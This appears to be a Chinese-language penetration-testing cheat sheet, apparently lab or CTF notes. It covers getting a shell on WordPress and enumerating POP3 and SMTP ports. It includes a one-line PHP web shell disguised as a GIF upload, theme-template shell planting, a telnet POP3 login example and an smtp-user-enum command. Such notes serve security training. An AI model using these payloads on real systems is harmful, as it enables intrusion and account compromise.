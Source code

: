   扫 https 时要注意忽略证书检测 `--disable-tls-checks`，wpscan 使用 [wpscan 工具使用教程_wpscan使用教程_liver100day的博客-CSDN博客](https://blog.csdn.net/liver100day/article/details/117585795)

### 拿shell

#### 插件plugin 

`searchsploit` 查找然后利用。也可以用 msf，具体参考这篇文章 [渗透项目（七）：DERPNSTINK: 1_Ays.Ie的博客-CSDN博客](https://blog.csdn.net/weixin_43938645/article/details/127820275)

#### 文件上传

找上传点，`GIF89a<?php eval($_POST[x]); ?>`，可能上传后路径在 `/blogblog/wp-content/uploads/` 下

#### 编辑主题模版

`wpscan` 后台 编辑 `Theme` 内容写 shell，主题模版的网站路径在 `http://192.168.56.103/wordpress/wp-content/themes/twentynineteen/404.php`



# 端口打点

黑客街，不会的就查查

```http
https://book.hacktricks.xyz/welcome/readme
```

## 25/110

```bash
└─# telnet $ip 110
```

例子：

```
user mindy
pass mindy
list

    1 1109
    2 836

RETR 1
```

```bash
smtp-user-enum -M VRFY -U [字典] -t 192.168.247.151
-M    ---用于猜测用户名 EXPN、VRFY 或 RCPT 的方法（默认值：VRFY）
-U    ---通过 smtp 服务检查的用户名文件
-t    ---host 服务器主机运行 smtp 服务
字典是这个，也可以选取类似：
/usr/share/metasploit-framework/data/wordlists/unix_users.txt
```

